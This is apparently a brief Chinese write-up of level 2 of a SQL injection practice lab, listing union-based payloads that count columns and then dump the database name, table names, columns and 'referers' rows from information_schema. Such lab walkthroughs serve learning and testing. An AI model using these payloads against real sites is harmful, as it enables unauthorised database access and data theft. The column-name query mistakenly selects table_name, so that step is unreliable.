






# 第二关
# series-2

跟上一关差不多
不过是数字型
构造
?id=1 order by 5 --+

错误回显
3字段
?id=1 order by 3 --+

无错误回显
3字段
查询数据库名
?id=-1 union select 1,2,database() --+

得到数据库名
security

查询表名
?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+

查询字段名
?id=-1 union select 1,2,group_concat(table_name) from information_schema.columns where table_name='referers'--+
查询内容
?id=-1 union select 1,group_concat(id,referer),group_concat(ip_address) from referers --+

内容啥都没有
过关～:|

